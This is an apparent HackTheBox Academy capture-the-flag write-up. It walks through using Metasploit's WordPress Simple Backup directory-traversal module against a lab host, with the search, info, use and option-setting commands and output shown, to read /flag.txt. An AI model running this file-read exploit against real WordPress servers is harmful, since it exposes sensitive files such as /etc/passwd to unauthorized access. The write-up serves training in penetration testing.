



### Introduction
Welcome to yet another writeup where I cover an important tool used by hackers to exploit vulnerabilities on different systems: [Metasploit](https://www.metasploit.com/) In this challenge, part of the "Getting started" series on HackTheBox Academy, we will be delving into the realm of public exploits and uncovering the power of Metasploit.

_Disclaimer: The content presented in this article is for educational purposes only and does not endorse or encourage any form of unauthorized access or malicious activity._

### Public exploits Challenge.
The challenge instructions were simple: "Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file." The main focus of this challenge is to demonstrate the ability to identify vulnerabilities and effectively exploit them. Let's begin our journey by examining the target IP address and visiting the associated webpage.


### Observations & Findings
Upon accessing the webpage, the very first thing that caught our attention was a version number and a brief description of a WordPress service. Drawing from our knowledge of how to find and exploit publicly available vulnerabilities, we swiftly launched the Metasploit console to search for an exploit relevant to this specific version.


```
──(dr0idbot㉿kali)-[~]
└─$msfconsole
- - - - - SNIP - - - - -

msf6 > search exploit wordpress 2.7.10

Matching Modules
================

   #  Name                                               Disclosure Date  Rank    Check  Description
   -  ----                                               ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/wp_simple_backup_file_read                   normal  No     WordPress Simple Backup File Read Vulnerability


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/http/wp_simple_backup_file_read                                       

msf6 > 
```
Metasploit came back with results, indicating that there is a publicly available exploit matching the version we found on the website.

Notice the command used to spin up metasploit **msfconsole** after its up and running, we run the command **search exploit wordpress 2.7.10** to see if there are any publicly available exploits for this plugin version. Sure enough, metasploit brings back results and slight description of what we are looking for matching the info on the website we had visited earlier on.

We have an option to see information about that exploit before using it, to see what they payload does. For that we use the command **info** plus the index of the exploit itself.
```
msf6 > info 0

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  DEPTH      6                yes       Traversal Depth (to reach the root fold
                                        er)
  FILEPATH   /etc/passwd      yes       The path to the file to read
  Proxies                     no        A proxy chain of format type:host:port[
                                        ,type:host:port][...]
  RHOSTS                      yes       The target host(s), see https://docs.me
                                        tasploit.com/docs/using-metasploit/basi
                                        cs/using-metasploit.html
  RPORT      80               yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connecti
                                        ons
  TARGETURI  /                yes       The base path to the wordpress applicat
                                        ion
  THREADS    1                yes       The number of concurrent threads (max o
                                        ne per host)
  VHOST                       no        HTTP server virtual host

Description:
  This module exploits a directory traversal vulnerability in WordPress Plugin
  "Simple Backup" version 2.7.10, allowing to read arbitrary files with the
  web server privileges.
- - - - - SNIP - - - - -
```
As you can see, a bunch of information is given about this particular exploit with a number options that we need to set in order for the payload to work on our target. Next we use the command **use** plus the index of the exploit we have picked for the exploitation. After selection we set the options that are required by metasploit before executing the payload.

```
msf6 > use 0
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set FILEPATH /flag.txt
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set RHOSTS 94.237.49.11
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set RPORT 41884

```

After obtaining information about the exploit, including the required options, we set the necessary values to ensure the payload will work against our target.
With all the options set, we verified the details and executed the payload on the target.

### Solution/Flag
Upon successful execution of the payload, the Metasploit console provided us with the following output:
```
[+] File saved in: /home/papab3ar/.msf4/loot/20230803014901_default_94.237.49.11_simplebackup.tra_422018.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
Using the command **cat**, we accessed the directory where the file was saved and retrieved the contents of the flag, thus completing the challenge.


### Conclusion
Metasploit proved to be a powerful tool during this challenge, allowing us to search for and exploit publicly available vulnerabilities effortlessly. It demonstrates the significance of staying vigilant against potential threats and the importance of secure coding practices for developers.

For a deeper understanding of Metasploit and its capabilities, you can refer to its official documentation [here](https://docs.metasploit.com/)

In conclusion, this challenge provided an excellent opportunity to apply web enumeration techniques, uncover hidden information, and identify potential vulnerabilities. As ethical hackers, the quest for knowledge and continuous learning is paramount. Happy hacking, and never stop learning!

dr0idbot out.
